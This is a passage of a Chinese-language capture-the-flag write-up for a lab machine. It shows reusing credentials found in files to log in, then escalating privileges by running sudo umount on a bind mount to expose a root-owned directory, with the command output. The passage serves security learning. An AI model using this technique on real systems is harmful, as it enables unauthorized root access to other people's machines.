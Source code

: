 对我们的文件进行分析我们可以看到密码以及账户

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-142205-5.png)

直接使用其进行登陆

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-142205-6.png)

### varg —> root

我发现用户 varg 具有 SUDO 特权

```bash
varg@cchq:/tmp$ sudo -l
Matching Defaults entries for varg on cchq:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User varg may run the following commands on cchq:
    (root) NOPASSWD: /bin/umount
```

接着我发现了一个可以利用的方法

[Sudo Umount Privilege Escalation | Exploit Notes](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-umount-privilege-escalation/)

```bash
varg@cchq:/tmp$ cat /etc/fstab
# /etc/fstab: static file system information.
#
# Use 'blkid' to print the universally unique identifier for a
# device; this may be used with UUID= as a more robust way to name devices
# that works even if disks are added and removed. See fstab(5).
#
# <file system> <mount point>   <type>  <options>       <dump>  <pass>
# / was on /dev/ubuntu-vg/ubuntu-lv during curtin installation
/dev/disk/by-id/dm-uuid-LVM-mrAx163lW73D8hFDlydZU2zYDwkd7tgT28ehcZQNMmzJmc0XKYP9m3eluIT1sZGo	/	ext4	defaults	0 0
# /boot was on /dev/sda2 during curtin installation
/dev/disk/by-uuid/6885d03d-f1fb-4785-971e-2bb17a3d22e3	/boot	ext4	defaults	0 0
#/swap.img	none	swap	sw	0 0
/home/varg/cooctOS_src	/opt/CooctFS	none	defaults,bind	0 0
varg@cchq:/tmp$ ls -al /opt/CooctFS
total 44
drwxrwx--- 11 varg os_tester 4096 Feb 20  2021 .
drwxr-xr-x  3 root root      4096 Feb 20  2021 ..
drwxrwx---  2 varg os_tester 4096 Feb 20  2021 bin
drwxrwx---  4 varg os_tester 4096 Feb 20  2021 boot
drwxrwx---  2 varg os_tester 4096 Feb 20  2021 etc
drwxrwx---  2 varg os_tester 4096 Feb 20  2021 games
drwxrwxr-x  8 varg os_tester 4096 Feb 20  2021 .git
drwxrwx---  3 varg os_tester 4096 Feb 20  2021 lib
drwxrwx--- 16 varg os_tester 4096 Feb 20  2021 run
drwxrwx---  2 varg os_tester 4096 Feb 20  2021 tmp
drwxrwx--- 11 varg os_tester 4096 Feb 20  2021 var
varg@cchq:/tmp$ sudo  /bin/umount /opt/CooctFS
varg@cchq:/tmp$ ls -al /opt/CooctFS
total 12
drwxr-xr-x 3 root root 4096 Feb 20  2021 .
drwxr-xr-x 3 root root 4096 Feb 20  2021 ..
drwxr-xr-x 5 root root 4096 Feb 20  2021 root
```
